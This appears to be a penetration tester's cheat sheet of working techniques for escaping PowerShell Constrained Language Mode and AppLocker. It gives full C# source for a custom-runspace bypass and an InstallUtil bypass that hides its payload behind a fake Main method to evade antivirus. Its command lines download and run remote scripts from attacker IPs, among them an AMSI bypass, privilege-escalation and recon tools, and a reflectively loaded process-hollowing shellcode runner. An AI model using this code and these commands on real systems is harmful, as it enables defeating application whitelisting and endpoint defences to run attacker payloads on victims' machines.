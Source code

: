 #### Background

    //Constrained language mode - FullLanguage (default), RestrictedLanguage, or NoLanguage
        //can bypass w/ v2 downgrade (powershell -ep bypass -version 2)
        //means only scripts from approved locations can run (also no command-line)
        //Test:  [Math]::Cos(1)
        *Check current mode:  $ExecutionContext.SessionState.LanguageMode

### Basic Custom Runspace Bypass

    //Custom Runspaces Bypass - **Works even if Powershell is Contrained - OR if PowerShell.exe is blocked!
            vscode > new C# Console App > PSAppLockerBypass
        *Run PS commands by recompiling PSAppLockerBypass.exe  
            ex. for privesc:  String cmd = "(New-Object System.Net.WebClient).DownloadString('http://192.168.45.188/PowerUp.ps1') | IEX; Invoke-AllChecks | Out-File -FilePath C:\\Tools\\test.txt";

    ###########The Code:###########
    using System;
    using System.Management.Automation;
    using System.Management.Automation.Runspaces;
    namespace Bypass
    {
        class Program
        {
            static void Main(string[] args)
            {
                Runspace rs = RunspaceFactory.CreateRunspace();
                rs.Open();
                PowerShell ps = PowerShell.Create();
                ps.Runspace = rs;
                //to run commands:
                String cmd = "(New-Object System.Net.WebClient).DownloadString('http://192.168.45.188/PowerUp.ps1') | IEX; Invoke-AllChecks | Out-File -FilePath C:\\Tools\\test.txt";
                ps.AddScript(cmd);
                ps.Invoke();
                rs.Close();
            }
        }
    } 


### **Custom InstallUtil Bypass**

    //fake main method can be used to evade AV, but Uninstall method has the code
    ////might have to remote MOTW first:  echo "" > C:\Tools\InstallUtilBypass.exe:Zone.Identifier (if downloaded from browser - error 0x80131515)
    //*Manually add System.Management.Automation.Runspaces to References from C:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35

    //run custom commands via cmdline!
        //can't directly launch a blocked exe; must launch in memory, etc.!
        
    //Basic Usage:  
        C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /cmd=whoami /U c:\windows\tasks\S.exe
    //Another Example:
        upload InstallUtilBypass.exe c:/windows/tasks/S.exe
        set IP=192.168.49.121
        C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /cmd="(New-Object System.Net.WebClient).DownloadString('http://%IP%/amsi.txt') | IEX; (New-Object System.Net.WebClient).DownloadString('http://%IP%/HostRecon.ps1') | IEX; Invoke-HostRecon > Hrecon.txt; (new-object system.net.webclient).downloadstring('http://%IP%/Invoke-Seatbelt.ps1') | IEX; Invoke-Seatbelt -Command '-group=all -outputfile=seat.txt'; (New-Object System.Net.WebClient).DownloadString('http://%IP%/PowerUp.ps1') | IEX; Invoke-AllChecks | Out-File -FilePath Pup.txt; IEX(New-Object Net.WebClient).downloadString('http://%IP%/winpeas.ps1') > winp.txt" /U c:\windows\tasks\S.exe
    //Hollow.dll Shellcode Runner:
        C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /cmd="echo '#######AMSIBYPASS#######'; (New-Object System.Net.WebClient).DownloadString('http://%IP%/amsi.txt') | IEX; $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.49.121/HollowDLL.dll'); $assem = [System.Reflection.Assembly]::Load($data); $class = $assem.GetType(\"HollowDLL.Program\"); $method = $class.GetMethod(\"Hollow\"); $method.Invoke(0, $null); echo '#######DONE#######'" /U c:\windows\tasks\S.exe

    #######The Code:#######
    using System;
    using System.Management.Automation;
    using System.Management.Automation.Runspaces;
    using System.Configuration.Install;
    using System.Diagnostics;
    using System.Net;
    using System.Runtime.InteropServices;
    using System.Text;
    using System.Collections.ObjectModel;

    namespace ConsoleApp17
    {
        class Program
        {
            static void Main(string[] args)
            {
                Console.WriteLine("Error");
            }
        }
        [System.ComponentModel.RunInstaller(true)]
        public class Sample : System.Configuration.Install.Installer
        {
            public override void Uninstall(System.Collections.IDictionary savedState)
            {
                pwsh.Exec(Context.Parameters["cmd"]);
            }
        }

        public class pwsh
        {
            public static void Exec(string command)
            {
                Console.WriteLine("[+] Usage: C:\\Windows\\Microsoft.NET\\Framework64\v4.0.30319\\installutil.exe /logfile= /LogToConsole=false /cmd=whoami /U C:\\Tools\\Bypass.exe\n\n");
                Runspace rs = RunspaceFactory.CreateRunspace();
                rs.Open();
                PowerShell ps = PowerShell.Create();
                ps.Runspace = rs;
                String cmd = command;
                ps.AddScript(cmd);
                Console.WriteLine("[+] Executing: " + cmd + "\n");
                Collection<PSObject> results = ps.Invoke();
                StringBuilder stringBuilder = new StringBuilder();
                foreach (PSObject obj in results)
                {
                    stringBuilder.AppendLine(obj.ToString());
                }
                Console.WriteLine(stringBuilder.ToString());
                rs.Close();
            }
        }
    }
